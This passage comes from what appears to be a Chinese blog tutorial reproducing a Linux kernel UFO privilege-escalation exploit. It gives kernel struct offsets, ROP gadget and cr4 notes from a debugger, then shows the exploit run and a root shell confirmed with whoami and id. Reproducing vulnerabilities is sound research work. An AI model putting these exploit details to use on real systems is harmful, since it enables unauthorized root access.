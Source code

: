 ```c
pwndbg> p/x &(*(struct sk_buff *)0)->nohdr
$1 = 0x8e
pwndbg> p/x &(*(struct skb_shared_info *)0)->dataref
$3 = 0x24

pwndbg> p/x &(*(struct skb_shared_info *)0)->frags
$4 = 0x30
pwndbg> p/x &(*(struct skb_shared_info *)0)->destructor_arg
$5 = 0x28
pwndbg> p/x &(*(struct skb_shared_info *)0)->frag_list
$6 = 0x8
pwndbg> p/x &(*(struct skb_shared_info *)0)->tx_flags
0x3

pwndbg> p/x &(*(struct ubuf_info *)0)->callback
ubuf_info


此时 r13 就是 skb_shared_info 的起始地址，这样就能查看skb_shared_info在buffer中的偏移是否正确
$ b *0xffffffff817b0bcc      // 0xffffffff817b0bcc <skb_release_data+28>:	add    r13,QWORD PTR [rdi+0xd0]
结果是正确的

(4) xchg eax, esp 这个gadget的地址太低无法用，改用以下地址
.text:FFFFFFFF8104AD63		setz    r11b

(5) cr4的值，可能不可用
RDI  0xffeff910    本文采用的ROP计算过于复杂，其实选取0x6f0即可。

(6) 保存用户态寄存器，跳出前恢复寄存器
*/
```

运行exp后，程序会触发 Linux 内核中的漏洞，利用 UFO（UDP Fragmentation Offload）相关的内存操作实现权限提升。

```
./exp
```

![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/8b64e79ac16b471480522796ac13586e.png#pic_center)


在运行漏洞利用程序后，再次输入以下命令，验证当前用户权限是否已经变为 `root`：

```
whoami
id
```

![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/51d3ef2b570948989239e6d4b81f9ac7.png#pic_center)

漏洞复现成功，成功从普通用户提升到 `root` 用户。![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/f8753861d91a46fc8ef837b5403c751d.png#pic_center)

